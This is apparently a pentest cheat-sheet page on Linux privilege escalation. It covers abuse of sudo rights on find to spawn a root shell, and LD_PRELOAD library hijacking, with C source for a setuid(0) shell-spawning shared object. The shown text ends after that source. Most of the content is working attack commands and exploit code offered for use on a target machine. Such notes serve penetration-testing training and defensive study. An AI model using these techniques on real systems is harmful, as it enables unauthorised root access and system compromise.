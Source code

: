 # Linux Privilege Escalation

Here are some techniques for achieving privilege escalation on _Linux_ systems:

## <mark style="color:orange;">Abusing Sudo execution permissions</mark>

* Verify which commands can be run with sudo

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ sudo -l

#Example results
User user may run the following commands on the host:
    (ALL) NOPASSWD: /usr/bin/find
```
{% endcode %}

{% hint style="info" %}
The `find` command is used as an example, can be any other command
{% endhint %}

***

* Check _Sudo_ abuse for the binary on [_GTFOBins_](../tools-and-utilities.md#gtfobins) and use it on the target machine to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo find . -exec /bin/sh \; -quit
#This will return a root shell
```
{% endcode %}

## <mark style="color:orange;">Abusing LD\_PRELOAD (Library Hijacking)</mark>

* Verify the _LD\_PRELOAD_ option in _env\_keep_

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l

#Example results
Matching Defaults entries for user on ip-0-0-0-0:
    env_reset, env_keep+=LD_PRELOAD
```
{% endcode %}

* Write a simple script in C

{% code title="shell.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
{% endcode %}
